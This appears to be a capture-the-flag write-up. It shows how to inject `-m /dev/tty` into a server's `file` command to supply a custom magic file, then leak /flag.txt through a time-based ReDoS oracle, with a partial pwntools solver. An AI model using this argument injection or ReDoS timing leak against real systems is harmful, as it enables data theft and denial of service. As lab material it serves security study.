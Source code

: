 Flag location: `/flag.txt`

### Solution

#### Step 1: Magic file injection

You can specify the arguments of the file command.

`man file`:
```
     -m, --magic-file magicfiles
             Specify an alternate list of files and directories containing magic.  This can be a single item,
             or a colon-separated list.  If a compiled magic file is found alongside a file or directory, it
             will be used instead.
```

You can specify a magic file with `-m` option and some special files (e.g. `/dev/tty` and `/proc/self/fd/0`).

However, you cannot get the result of the file command somce the server does not output anything.

#### Step 2: A time-based attack with ReDoS

`man magic`:
```
              regex       A regular expression match in extended POSIX regular expression syntax (like egrep).
                          Regular expressions can take exponential time to process, and their performance is
                          hard to predict, so their use is discouraged.  When used in production environments,
                          their performance should be carefully checked.  The size of ... snip ...
```
You can use `regex`, so you can also do ReDoS! Try a time-based attack with ReDoS.

### Solver

```python
import string
import os
import pwn
import time

REDOS_POWER = 20
TIMEOUT = 20

SSH_CMD = f"sshpass -p ctf ssh -oStrictHostKeyChecking=no -oCheckHostIP=no ctf@{os.getenv('SECCON_HOST')} -p {os.getenv('SECCON_PORT')}"


def get_time(rule: str) -> bool:
    io = pwn.process(SSH_CMD, shell=True, stdin=pwn.PTY, raw=False)
    io.sendlineafter(b"Input a file path: ", b"-m /dev/tty /flag.txt")
    io.sendline(rule.encode())
    for i in range(REDOS_POWER):
        io.sendline(f">0 regex \\^(((((((((((((((((((((((((((((.*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*@ ReDoS-{i}".encode())
    io.recvuntil(f"ReDoS-{REDOS_POWER - 1}".encode(), timeout=TIMEOUT)
    io.send("\x04")  # Ctrl+D

    t1 = time.time()
    io.recvall(timeout=TIMEOUT)
    t2 = time.time()
    io.close()
    return t2 - t1
```